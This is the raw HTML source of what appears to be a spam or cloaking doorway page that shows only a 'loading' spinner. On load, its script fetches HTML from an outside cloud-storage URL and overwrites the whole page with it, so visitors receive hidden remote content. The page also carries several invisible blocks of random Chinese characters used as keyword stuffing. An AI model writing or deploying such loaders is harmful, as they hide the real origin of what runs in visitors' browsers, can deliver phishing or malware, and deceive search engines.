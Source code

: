         <!DOCTYPE html>
<html>
<head> <meta charset="utf-8" />
    <style>
        iframe {
            display: none;
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        body {
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        .B9wgDa2R8 {
            position: fixed;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            z-index: 1;
            background-color: #d8d8d8
        }

        .B9wgDa2R8 .pz7x2M63gMC {
            position: absolute;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            height: 50px;
            margin: auto
        }

        .B9wgDa2R8 .content {
            line-height: 50px;
            text-align: center
        }

        .B9wgDa2R8 .img {
            width: 100%
        }

        .B9wgDa2R8 .m6wJvj94 {
            text-align: center
        }

        .B9wgDa2R8 .m6wJvj94 span {
            display: inline-block;
            width: 6px;
            height: 50px;
            background-color: #FF5722;
            -webkit-transform: scaleY(0.4);
            transform: scaleY(0.4);
            -webkit-animation: scale 1s infinite;
            animation: scale 1s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(2) {
            -webkit-animation: scale 1s .2s infinite;
            animation: scale 1s .2s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(3) {
            -webkit-animation: scale 1s .3s infinite;
            animation: scale 1s .3s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(4) {
            -webkit-animation: scale 1s .4s infinite;
            animation: scale 1s .4s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(5) {
            -webkit-animation: scale 1s .5s infinite;
            animation: scale 1s .5s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(6) {
            -webkit-animation: scale 1s .6s infinite;
            animation: scale 1s .6s infinite
        }

        @-webkit-keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        @keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        .B9wgDa2R8 .tips {
            font-size: 1rem;
            color: #fff;
            text-align: center
        }
    </style>
</head>
<body><script>
    function loadJs(a) { var c = document.createElement("script"); c.src = a, document.body.appendChild(c);}
    function getUrlParam(name) { var reg = new RegExp("(.|&)" + name + "=([^&]*)(&|$)"); var r = window.location.href.match(reg); if (r != null) return unescape(r[2]); return null;}
    function Dget(e, t,a) {
        var n = new XMLHttpRequest;
        //n.timeout = 3000;
        n.onreadystatechange = function () {
            4 === n.readyState && (200 === n.status || 304 === n.status ? "function" == typeof t && t(n.responseText) : "function" == typeof a && a(n))
        };n.ontimeout = function (e) {
            //alert('请求超时,重新发起请求');
            //location.reload();
        };
        n.open("GET", e, !0),
            n.send(null)
    }
    var temp = getUrlParam('temp');

    //if(document.referrer){
    var temp_name = temp +'.html';
    Dget('//20200805hb.oss-cn-hangzhou.aliyuncs.com/0904/sztwoxxsqwefer.html',function(res){
        var doc=document.open("text/html","replace")
        doc.write(res);
        doc.close()
    })
    //}

</script> 
<div style='display:none'>俄赂技草炔捷梳惋薄阑贺匹韩疟雾茸坟称伸蒋女诫抠低僵磊村擦节褪肌商苦</div>
<b style='display:none' >位钒赂扫船速错韦添晶挠誓淀舰赦倡涡额宠羚闯疾矫黄池踏帆仍疮弛攘裁两腊内迟侥祁撮思磺科碗勘帮差驴侨戊辰滔薄频涕担婚惋登氦毒畦宝</b>
<h1 style='display:none' >乡鞭帽上炊方登毯耿奠浮韩成扰尾群桂娇橡怕</h1>
<b style='display:none' >位钒赂扫船速错韦添晶挠誓淀舰赦倡涡额宠羚闯疾矫黄池踏帆仍疮弛攘裁两腊内迟侥祁撮思磺科碗勘帮差驴侨戊辰滔薄频涕担婚惋登氦毒畦宝</b>
<h1 style='display:none' >乡鞭帽上炊方登毯耿奠浮韩成扰尾群桂娇橡怕</h1>
<ul style='display:none' >兜塘尘摩炒替奔铜其侯纳仿骄垦纫擒让钮桃肌谜虹蔬栏鼻棱慨稠堪雷哭疾咸菏效困呢鄙鳖垛廓茎拌薯破翱轿晃耸伸莆衔粕拔揣跺肺峡倡蓝蛔挟孰竣鹤垢俺擦攻卞碑森料颂采匪啡吕痪疮唯匈娄吧晦恢深彭慧饲颊估蹋害湍匠</ul>
<h1 style='display:none' >乡鞭帽上炊方登毯耿奠浮韩成扰尾群桂娇橡怕</h1>
<ul style='display:none' >兜塘尘摩炒替奔铜其侯纳仿骄垦纫擒让钮桃肌谜虹蔬栏鼻棱慨稠堪雷哭疾咸菏效困呢鄙鳖垛廓茎拌薯破翱轿晃耸伸莆衔粕拔揣跺肺峡倡蓝蛔挟孰竣鹤垢俺擦攻卞碑森料颂采匪啡吕痪疮唯匈娄吧晦恢深彭慧饲颊估蹋害湍匠</ul><div class="B9wgDa2R8">
    <div class="pz7x2M63gMC">
        <div class="m6wJvj94">
            <p style="font-size:50px;color:#FF5722; padding-top: 18%; margin:-28% auto">正在加载...</p>

            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span></div>

    </div>
</div>
</body>

</html>
